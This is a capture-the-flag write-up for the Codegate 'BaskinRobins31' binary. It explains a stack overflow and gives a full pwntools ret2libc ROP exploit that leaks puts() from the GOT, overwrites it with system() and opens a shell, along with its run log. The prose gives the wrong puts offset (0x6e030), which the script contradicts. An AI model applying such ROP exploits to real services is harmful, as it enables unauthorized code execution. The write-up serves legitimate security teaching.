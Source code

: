 ```bash
file BaskinRobins31
```
>BaskinRobins31: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4abb416c74a16aaa8b4c9c6c366bed445c306037, not stripped

this task  involves leaking a libc function’s address from the GOT, and using it to determine the addresses of other functions in libc that we can return to.

The vulnerability is in the your_turn() function, where read() is allowed to write 0x190 (400 bytes) into a 0x96 (150 bytes) buffer
the following code shows the vulnerable part of the function 
```assembly
mov    edx,0x96 ;150 bytes 
mov    esi,0x0 ;fill buffer with 0
mov    rdi,rax ;copy adr of buffer to rdi 
call   0x4006f0 <memset@plt> ;memset(rdi,0,0x96)
```
**The high level solution to exploiting this is as follows:**
1. Leak the address of a library function in the GOT. In this case, we’ll leak puts()’s GOT entry
2. Get libc’s base address so we can calculate the address of other library functions. 
3. Compute system()'s address 
4. Overwrite a GOT entry’s address (puts) with system()’s address
5. Write **/bin/sh** to writeable area , in this case .bss
6. Invoke system("/bin/sh")


**Leaking a libc address**
Grab puts()’s entry in the GOT:

```bash
$ objdump -R BaskinRobins31 |grep "puts"
0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```
If we can write puts()’s GOT entry back to us,We can do that by overwriting your_turn()’s saved return pointer to setup a ret2plt; in this case, write@plt. 
Since we’re exploiting a 64-bit binary, we need to populate the RDI, RSI, and RDX registers with the arguments for write(). 
So we need to return to a ROP gadget that sets up these registers, and then we can return to write@plt.
**Get libc’s base address**
Next we need to calculate libc’s base address in order to get the address of any library function, or even a gadget, in libc.
```bash
$ ldd BaskinRobins31 
	linux-vdso.so.1 =>  (0x00007ffc10bb0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8688442000)
	/lib64/ld-linux-x86-64.so.2 (0x00005621769b1000)
```

/lib/x86_64-linux-gnu/libc.so.6 contains the offsets of all the functions available to us in libc. To get puts()’s offset, we can use readelf:

```bash
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep "puts"
   186: 000000000006f690   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   475: 000000000010bbe0  1262 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   651: 000000000010d590   703 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1097: 000000000006e030   354 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1611: 000000000006e030   354 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2221: 00000000000782b0    95 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```
puts()’s offset is at 0x6e030. Subtracting this from the leaked puts()’s address will give us libc’s base address.
To find the address of any library function, we just do the reverse and add the function’s offset to libc’s base address. 
So to find system()’s address, we get its offset from libc.so.6, and add it to libc’s base address.

**Overwrite a GOT entry’s address**
Now that we can get any library function address, we can do a ret2libc to complete the exploit. 
We’ll overwrite puts()’s GOT entry with the address of system(), so that when we trigger a call to puts(), it will call system(“/bin/sh”) instead


1.    Overwrite puts()’s GOT entry with the address of system() using read@plt.
2.    Write “/bin/sh” somewhere in memory using read@plt. We’ll use 0x602090 since it’s a writable location with a static address.
3.    Set RDI to the location of “/bin/sh” and return to system().

Here is the final exploit 
```python
#!/usr/bin/python

from pwn import * 

#p=process('./BaskinRobins31')
p=remote("ch41l3ng3s.codegate.kr",3131)
puts_off = 0x06f690
system_off = 0x45390
writeable = 0x602090 #.bss
puts_got = 0x00602020
puts_plt = 0x4006c0
mov_3pop = 0x400877
write_plt = 0x4006d0
read_plt = 0x400700

payload = ""
payload += "A"*(176) #Junk
payload += p64(0xcafebabe) #rbp
payload += p64(mov_3pop) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) #rdi
payload += p64(puts_got) #puts@got  => addr to read from 
payload += p64(0x8) #rdx-number of bytes to be written to stdout
payload += p64(write_plt) #write@plt



#Stage 1 :overwrite puts@got with system_adr
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi stdin 
payload += p64(puts_got) #puts@got ==> addr to write to 
payload += p64(0x8) #size to be read
payload += p64(read_plt) #read@plt

#Stage 2 :write /bin/sh to .bss

payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi 
payload += p64(writeable) #rsi adr to write '/bin/sh' to 
payload += p64(0x8) #size to be read from stdin
payload += p64(read_plt) #read@plt


#Stage 3 : set RDI to "/bin/sh" and call system()
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(writeable) #rdi ==>adr of '/bin/sh'
payload += p64(0x1) #junk
payload += p64(0x1) #junk
payload += p64(puts_plt) #puts@got which become system()



p.sendline(payload)
p.recvuntil(":(")
leaked_addr = p.recv(8)
puts_libc=hex(u64(leaked_addr))[:-4]
print "[+] Puts is at :"+puts_libc
libc_base = int(puts_libc,16) - puts_off
print "[+] Libc base is", hex(libc_base)
system_addr = libc_base + system_off
print "[+] System() is at", hex(system_addr)
print "[+] Sending system_addr", hex(system_addr)
p.send(p64(system_addr))
print "[+] Sending '/bin/sh'"
p.send("/bin/sh")
p.interactive(">> ")
#flag{The Korean name of "Puss in boots" is "My mom is an alien"}

```
I’ve commented the code heavily, so hopefully that will explain what’s going on ;) 
```
anisboss@anisboss-PC:/tmp/codegate/pwn$ python exploit.py 
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[+] Puts is at :0x7f4c8f872690
[+] Libc base is 0x7f4c8f803000
[+] System() is at 0x7f4c8f848390
[+] Sending system_addr 0x7f4c8f848390
[+] Sending '/bin/sh'
[*] Switching to interactive mode
\x00\x00>> ls
BaskinRobins31
flag
>> cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
```
